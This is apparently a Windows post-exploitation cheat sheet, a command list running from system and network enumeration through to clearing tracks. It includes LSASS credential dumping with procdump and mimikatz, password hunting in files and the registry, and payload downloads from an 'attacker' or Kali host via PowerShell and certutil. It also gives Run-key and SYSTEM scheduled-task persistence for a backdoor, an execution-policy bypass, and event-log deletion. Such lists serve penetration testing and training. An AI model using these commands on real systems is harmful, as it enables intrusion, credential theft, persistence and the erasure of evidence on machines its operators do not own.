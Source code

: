 
1. Basic System Enumeration
- Show system info: systeminfo
- List local users: net user
- List groups: net localgroup
- List members of a group: net localgroup Administrators
- Show current user: whoami
- Show user privileges: whoami /priv
- Show environment variables: set
- Check running processes: tasklist
- List installed programs: wmic product get name
___

2. Network Information
- IP configuration: ipconfig /all
- List active connections: netstat -ano
- Firewall config: netsh advfirewall show allprofiles
- View ARP table: arp -a
- Check routing table: route print
___

3. Share &amp; SMB Enumeration
- View shared folders: net share
- Enumerate remote shares: net view \\[IP]
- List sessions: net session
- View open files: net file
- Show NetBIOS names: nbtstat -A [IP]
- Use null session (if allowed): net use \\[IP]\ipc$ &quot;&quot; /user:&quot;&quot;
___

4. User &amp; Credential Hunting
- Check for stored credentials: cmdkey /list
- Search for passwords: findstr /si password *.txt *.ini *.xml
- Search for creds in registry: reg query HKLM /f password /t REG_SZ /s
- Extract password hashes (LSASS): procdump -ma lsass.exe lsass.dmp + mimikatz
___

5. Privilege Escalation Checks
- Check privileges: whoami /priv
- Check service configs: sc qc [service]
- List all services: sc query
- Search for unquoted service paths: wmic service get name,pathname,startmode | findstr /i &quot;Auto&quot;
- Scheduled tasks: schtasks /query /fo LIST /v
___

6. PowerShell Recon &amp; Abuse
- List installed hotfixes: Get-HotFix
- Check Windows Defender status: Get-MpPreference
- Download a payload: Invoke-WebRequest -Uri http://attacker/payload.exe -OutFile payload.exe
- Bypass execution policy: powershell -ExecutionPolicy Bypass -File script.ps1
___

7. Persistence Techniques
- Add a startup registry key: reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v updater /t REG_SZ /d &quot;C:\malware.exe&quot;
- Create a new scheduled task: schtasks /create /tn &quot;MyTask&quot; /tr &quot;cmd.exe /c C:\backdoor.exe&quot; /sc onlogon /ru SYSTEM
___

8. Post-Exploitation Tools
- mimikatz: Credential dumping (sekurlsa::logonpasswords)
- powershell: Built-in scripting, privilege checks
- winPEAS.exe: PrivEsc enumeration
- AccessChk.exe: Permissions check on files/services
- SharpUp, Seatbelt: Offensive PowerShell recon tools
___

9. File Transfer (From Kali to Windows)
- Python HTTP server (on Kali): python3 -m http.server 80
- PowerShell download (on Win): Invoke-WebRequest http://[KALI_IP]/file.exe -OutFile file.exe
- Certutil (Win): certutil -urlcache -split -f http://[KALI_IP]/file.exe file.exe
___

10. Clearing Tracks
- Delete event logs: wevtutil cl System
- Delete specific file: del C:\Users\user\Desktop\payload.exe